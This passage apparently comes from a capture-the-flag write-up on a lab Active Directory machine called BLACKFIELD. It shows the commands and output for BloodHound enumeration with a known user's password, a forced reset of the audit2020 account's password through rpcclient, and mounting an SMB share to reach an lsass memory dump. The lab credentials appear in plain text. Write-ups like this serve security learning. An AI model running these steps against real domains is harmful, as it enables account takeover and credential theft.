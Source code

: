 ## Bloodhound 
Enumerating AD with `support` user's credentials:
```bash
$ bloodhound-python -u support -p '#00^BlackKnight' -c ALL -ns `IP` -d BLACKFIELD.local
INFO: Found AD domain: blackfield.local
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 315 users
INFO: Connecting to GC LDAP server: dc01.blackfield.local
INFO: Found 51 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.BLACKFIELD.local
INFO: Done in 00M 35S
```
Loading those json files in bloodhound, marking SUPPORT@BLACKFIELD.LOCAL as owned and starting node and AUDIT2020@BLACKFIELD.LOCAL as ending node gives us:
```text
ForceChangePassword

The user SUPPORT@BLACKFIELD.LOCAL has the capability to change the user
AUDIT2020@BLACKFIELD.LOCAL's password without knowing that user's current 
password.
```
[https://malicious.link/post/2017/reset-ad-user-password-with-linux/](https://malicious.link/post/2017/reset-ad-user-password-with-linux/) shows how to reset AD password.
```bash
$ rpcclient -U 'support%#00^BlackKnight'  `IP`
rpcclient $> setuserinfo2 audit2020 23 'Caretaker@123'
```

## SMB	
```bash
smbclient //`IP`/forensic -U 'audit2020%Caretaker@123'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 18:33:16 2020
  ..                                  D        0  Sun Feb 23 18:33:16 2020
  commands_output                     D        0  Sun Feb 23 23:44:37 2020
  memory_analysis                     D        0  Fri May 29 01:58:33 2020
  tools                               D        0  Sun Feb 23 19:09:08 2020
```
memory_analysis seems interesting, it contains a zip called lsass.zip which may contain some credentials.
Downloading directly from smbclient will fail (you can use smbclient.py as an alternative). We can also mount the SMB shares:
```bash
$ mount -t cifs //`IP`/forensic /mnt -o user=audit2020,password=Caretaker@123
```
